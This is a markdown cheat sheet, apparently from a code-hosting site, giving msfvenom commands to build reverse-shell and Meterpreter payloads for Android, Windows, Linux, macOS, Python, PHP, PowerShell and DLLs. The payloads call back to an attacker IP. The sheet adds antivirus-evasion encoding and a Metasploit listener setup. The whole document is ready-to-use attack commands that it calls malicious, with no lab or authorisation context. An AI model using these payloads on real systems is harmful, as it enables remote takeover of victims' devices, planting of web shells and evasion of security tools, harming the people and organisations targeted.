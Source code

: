 Creating Payloads Using msfvenom in msfconsole
Metasploit's msfvenom allows you to generate various types of payloads for different operating systems and architectures. Below are the commands to create payload files for Android (APK), Windows (EXE), Linux (Debian & Shell), macOS, and other platforms.

### 📌 1. Generate Android Payload (APK)
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o payload.apk
```
LHOST: Your attacker's IP.
LPORT: The port to listen for connections.
Output: payload.apk (malicious Android APK).
### 📌 2. Generate Windows Payload (EXE)
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
```
Payload: windows/meterpreter/reverse_tcp
Output: payload.exe (malicious Windows executable).
## 🔹 For a staged payload (better evasion & performance):

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=4444 -f exe -o payload_https.exe
```
### 📌 3. Generate Linux Payload (Debian .deb package)
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o payload.deb
```
Output: payload.deb (Debian-based Linux payload).
### 📌 4. Generate Linux Shell Payload (.sh script)
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o payload.sh
chmod +x payload.sh
```
Output: payload.sh (Shell script to execute a reverse shell).
### 📌 5. Generate macOS Payload (.macho file)
```bash
msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f macho -o payload.macho
```
Output: payload.macho (Malicious macOS executable).
### 📌 6. Generate Python Payload (Cross-Platform)
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o payload.py
```
Output: payload.py (Python-based payload that works on multiple OS).
### 📌 7. Generate PHP Payload (For Webshells)
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw -o payload.php
```
Output: payload.php (A PHP web shell that opens a reverse connection).
### 📌 8. Generate PowerShell Payload (For Windows)
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f psh -o payload.ps1
```
Output: payload.ps1 (PowerShell script to execute a reverse shell).
### 📌 9. Generate Bash Payload (For Linux/macOS)
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=192.168.1.100 LPORT=4444 -f raw -o payload.sh
```
Output: payload.sh (A Bash reverse shell payload).
### 📌 10. Generate a Reverse TCP Payload for Windows DLL
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f dll -o payload.dll
```
Output: payload.dll (Malicious DLL file).
### 📌 11. Generate an Encoded Payload (To Evade Antivirus)
To make payloads harder to detect, use encoding:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -e x86/shikata_ga_nai -o encoded_payload.exe
```
Encoder: x86/shikata_ga_nai
Output: encoded_payload.exe
### 📌 12. Start a Listener in Metasploit (multi/handler)
Once you have generated and executed the payload on the target, you need to set up a listener in msfconsole to receive connections.

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp  # Change based on your payload
set LHOST 192.168.1.100
set LPORT 4444
exploit
```
This will start listening for incoming connections from the infected system.
